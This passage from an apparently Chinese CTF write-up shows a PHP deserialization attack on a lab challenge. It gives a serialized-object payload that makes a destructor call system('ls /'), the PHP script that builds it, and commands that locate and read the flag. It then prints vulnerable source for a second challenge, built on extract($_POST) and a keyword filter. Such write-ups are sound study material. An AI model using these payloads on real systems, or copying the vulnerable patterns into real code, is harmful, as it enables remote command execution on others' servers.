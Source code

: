 ```


```

可以看到，基本上可以得到webshell的危险函数全被禁止了。

5、仔细阅读源码发现一个类 Test，里面有一个析构函数，可以执行我们想要的函数，依然是传参函数名+参数。并且没有过滤 func，**联想到反序列化后会执行析构函数，那么我们可以构造一个序列化的字符串，传入我们想要执行的危险函数**。于是构造payload：

```
func=unserialize&amp;p=O:4:"Test":2:{s:1:"p";s:4:"ls /";s:4:"func";s:6:"system";}


```

其EXP如下：

```
&lt;?php
 class Test {
        var $p = "ls /";
        var $func = "system";
}
$a = new Test();
echo serialize($a);
//unserialize
?&gt;


```

执行结果如下图所示：

<img src="https://img-blog.csdnimg.cn/20200820165834759.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70#pic_center" alt="在这里插入图片描述">

6、使用命令`find / -name flag*`查找flag的位置：

<img src="https://img-blog.csdnimg.cn/20200820170308986.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70#pic_center" alt="在这里插入图片描述"> 7、执行命令`cat /tmp/flagoefiu4r93`读取flag：

<img src="https://img-blog.csdnimg.cn/20200820170427221.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70#pic_center" alt="在这里插入图片描述">

### No.7 安洵杯-PHP反序列化溢出

1、创建并访问靶机：

<img src="https://img-blog.csdnimg.cn/20200821104635799.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70#pic_center" alt="在这里插入图片描述"><img src="https://img-blog.csdnimg.cn/20200821104644826.png#pic_center" alt="在这里插入图片描述"><img src="https://img-blog.csdnimg.cn/20200821104703862.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70#pic_center" alt="在这里插入图片描述"> 2、完整的源码如下：

```
 &lt;?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}

if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

```